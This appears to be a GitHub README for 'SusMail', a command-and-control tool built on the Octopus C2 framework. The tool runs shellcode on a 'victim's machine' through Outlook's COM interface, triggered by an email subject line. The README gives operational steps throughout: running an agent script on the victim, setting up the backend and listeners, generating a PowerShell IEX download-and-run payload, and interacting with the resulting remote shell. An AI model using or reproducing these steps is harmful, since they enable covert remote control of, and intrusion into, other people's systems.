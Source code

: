 C2 over Microsofts' Outlook based on Octopus as backend

# What is Octopus ? ![](https://img.shields.io/badge/python-3-yellow)
  Octopus is an open source, pre-operation C2 server based on python which can control an Octopus powershell agent through HTTP/S.

'SusMail' leverages the Outlook Application Interface (COM Interface) to execute shellcode on a system based on a specific trigger subject line. By utilizing the Microsoft.Office.Interop.Outlook namespace, developers can represent the entire Outlook Application. 



# About the PowerShell agent 
This is gonna ran on the victim's machine(inside the internal organization):
just run the script: ```./AllInOne.ps1```




# Requirements & Pre-requisites & installation

1. Machine that will hold the backend based on Octupus(python) - You can install all  Octopus' requirements via :

```pip install -r requirements.txt```

You have to change the next details before you start:
* change the $username and $password ```./agents/agent.ps1.oct ```
* erasing all the emails from the inbox
* permit email account communication with low security apps
if there any problem with it:
https://support.google.com/mail/answer/7126229?visit_id=637650667152983230-1024873670&rd=2#cantsignin&zippy=%2C%D7%9C%D7%90-%D7%94%D7%A6%D7%9C%D7%97%D7%AA%D7%99-%D7%9C%D7%94%D7%99%D7%9B%D7%A0%D7%A1-%D7%9C%D7%AA%D7%95%D7%9B%D7%A0%D7%AA-%D7%94%D7%90%D7%99%D7%9E%D7%99%D7%99%D7%9C-%D7%A9%D7%9C%D7%99


`./octopus.py`

You will by greeted with the following once you run it :

```
┌─[askar@hackbook]─[/opt/redteaming/Octopus]
└──╼ $python3 octopus.py



      ___           ___                       ___           ___         ___           ___
     /  /\         /  /\          ___        /  /\         /  /\       /__/\         /  /\
    /  /::\       /  /:/         /  /\      /  /::\       /  /::\      \  \:\       /  /:/_
   /  /:/\:\     /  /:/         /  /:/     /  /:/\:\     /  /:/\:\      \  \:\     /  /:/ /\
  /  /:/  \:\   /  /:/  ___    /  /:/     /  /:/  \:\   /  /:/~/:/  ___  \  \:\   /  /:/ /::\
 /__/:/ \__\:\ /__/:/  /  /\  /  /::\    /__/:/ \__\:\ /__/:/ /:/  /__/\  \__\:\ /__/:/ /:/\:\
 \  \:\ /  /:/ \  \:\ /  /:/ /__/:/\:\   \  \:\ /  /:/ \  \:\/:/   \  \:\ /  /:/ \  \:\/:/~/:/
  \  \:\  /:/   \  \:\  /:/  \__\/  \:\   \  \:\  /:/   \  \::/     \  \:\  /:/   \  \::/ /:/
   \  \:\/:/     \  \:\/:/        \  \:\   \  \:\/:/     \  \:\      \  \:\/:/     \__\/ /:/
    \  \::/       \  \::/          \__\/    \  \::/       \  \:\      \  \::/        /__/:/
     \__\/         \__\/                     \__\/         \__\/       \__\/         \__\/




 Octopus C2 | Control your shells


Octopus >>

```
# Usage

> listen_http 0.0.0.0 8080 <your_domain> 10 comments1.php <listener_name>
> generate_powershell <listener_name>


Now copy the first IEX and run it from machine that has access to your gmail account


> (after connection established): interact 1
And you will able to run os PS commands




# Credits
based on Octopus Project, thanks for mhaskar * [J005](https://github.com/iomoath)


